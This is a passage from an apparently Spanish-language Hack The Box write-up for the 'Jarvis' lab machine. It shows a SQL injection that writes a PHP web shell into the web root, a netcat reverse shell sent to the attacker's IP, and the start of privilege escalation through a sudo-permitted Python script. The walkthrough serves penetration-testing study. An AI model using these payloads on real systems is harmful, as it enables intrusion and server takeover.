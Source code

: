 Vemos que podemos crear archivos y acceder a ellos, por lo que ya debemos estar pensando en tratar de subir de archivo php que nos permita la ejecución de comandos. Nuestra sentencia sería la siguiente:

```bash
union select 1,2,"<?php echo shell_exec($_REQUEST['cmd']); ?>",4,5,6,7 into outfile "/var/www/html/images/shell.php"
```

![](/assets/images/htb-jarvis/jarvis-web10.png)

Hemos logrado tener ejecución de comandos a nivel de sistema, así que lo único que nos queda es entablarnos una reverse shell a nuestra máquina de atacante y haremos uso de [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
http://10.10.10.143/images/shell.php?cmd=nc -e /bin/sh 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.143] 39846
whoami
www-data
```

Como siempre y para trabajar más comodos, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Ahora vamos a enumerar un poco el sistema para ver la forma en la que podamos escalar privilegios.

```bash
www-data@jarvis:/var/www/html/images$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@jarvis:/var/www/html/images$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
www-data@jarvis:/var/www/html/images$
```

Vemos que podemos ejecutar el script `/var/www/Admin-Utilities/simpler.py` como el usuario **pepper**. Si checamos, tenemos permisos de lectura y una de las opciones que ya nos debería llamar la atención sería el parámetro `-p`, el cual nos permitiría ejecutar comandos a nivel de sistema como el usuario **pepper**.

```bash
www-data@jarvis:/var/www/html/images$ sudo -u pepper /var/www/Admin-Utilities/simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


```